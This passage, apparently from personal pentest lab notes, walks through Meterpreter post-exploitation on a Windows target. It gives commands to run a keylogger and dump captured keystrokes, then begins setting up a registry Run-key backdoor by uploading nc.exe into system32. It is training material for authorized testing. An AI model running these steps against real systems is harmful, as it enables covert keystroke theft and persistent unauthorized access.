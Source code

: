 - Next start the keylogger
```bash
keyscan_start
```

- Now if you log into the target pc and open the notepad and typing whatever you would like. 
![[Pasted image 20231116002319.png]]
> for example I opened up the notepad and typed in random characters

- now lets go back to the kali linux machine and input the following: ~
```bash
keyscan_dump
```

- This command will dump what is stored in the keylogger
![[Pasted image 20231116002443.png]]
> As you can see this is everything we typed on the notepad on the victim PC, it even records the shortcuts

- To switch off your keylogger
```bash
keyscan_stop
```


For Reference - [Link](https://www.offensive-security.com/metasploit-unleashed/keylogging/)

### 9.2 Adding Persistence using registry ☄️

The Windows registry holds all the windows settings, With just a few keystrokes, you can cripple a system. 

> 💡 Note: Be careful when editing registry files when doing a pentest.

you can edit these registry files within meterpreter. 

One of the most useful registry key is *HKLM\\software\\microsoft\\windows\\currentversion\\run*.
This key indicates what to run when the machine first boots up. To give us a persistence backdoor we can set it so a netcat listener start at boot

- From meterpreter> prompt, show the key (i.e what runs at boot?) by running: ~
```bash
reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run
```

> 💡 [[startup reg key command breakdown]] 💡

![[Pasted image 20231116021735.png]]
> ☄️Note:- As you can see, their are 3 programs that start along with the system.. 


- Now lets upload netcat from Kali Linux: - 
```bash
upload /usr/share/windows-resources/binaries/nc.exe C:\\windows\\system32
```

> 💡 [[Upload nc.exe command breakdown]] 💡

![[Pasted image 20231116021937.png]]
> 💡 Upload successful 
